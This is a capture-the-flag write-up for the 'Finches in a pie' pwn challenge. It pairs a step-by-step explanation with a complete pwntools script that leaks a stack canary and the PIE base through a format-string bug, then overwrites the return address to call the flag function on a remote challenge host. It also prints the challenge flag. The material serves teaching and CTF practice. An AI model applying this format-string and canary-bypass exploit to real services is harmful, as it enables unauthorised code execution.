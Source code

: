 # Finches in a pie

###
`Exploit the service to get the flag.`

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

.got is still accessible but PIE making it worse.

* need to find out where the canary is located
* need to find out the application base offset

No ROP needed here, when `canary` is known, it is possible just rewrite return
address with `flag` address.

So the solution is : n * b'A' + p32(canary) + m * b'A' + p32(base + flag).

Detailed steps:
1. read out with %x stack values
2. check stack with gdb{x/32a $esp} with breakpoints on gets/printf
3. with first one printf we can find out application base offset,
   %3$x points on <say_hi+13> always with each call of this function.
4. with second gets do the same checks with gdb
5. just passing n * b'A' into second gets, manually narrow the place
   when you have this:
   ```
   *** stack smashing detected ***: terminated
   ```
6. now we know canary's location
7. easiest part is here, just find out return address and change it on flag function

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = ['urxvt', '-e', 'sh', '-c']
context.log_level = 'debug'
debug = 0

if debug:
    io = gdb.debug(['./fiap'], gdbscript='''
b gets
b *(say_hi+202)
b *(say_hi+0xe5)
c
''')
else:
    #io = process(['./fiap'])
    io = remote('88.198.219.20', 49417)
binary = ELF('./fiap')
flag = binary.symbols['flag']
say_hi = binary.symbols['say_hi']

# 11 - canary, 3 -- say_hi + 13 
payload = b'%11$x %3$x '
io.recvuntil("What's your name?")
io.sendline(payload)
addrs = io.recvuntil("Thank you, ")
addrs = io.recvline().decode("utf-8")
addrs = addrs.split()
canary = int(addrs[0], 16)
pie = int(addrs[1], 16) - say_hi - 13

io.recvuntil("Would you like some cake?")
payload = 25*b'A' + p32(canary) + 12*b'A' + p32(pie + flag)
io.sendline(payload)

io.interactive()
#ractf{B4k1ng_4_p1E!}
```
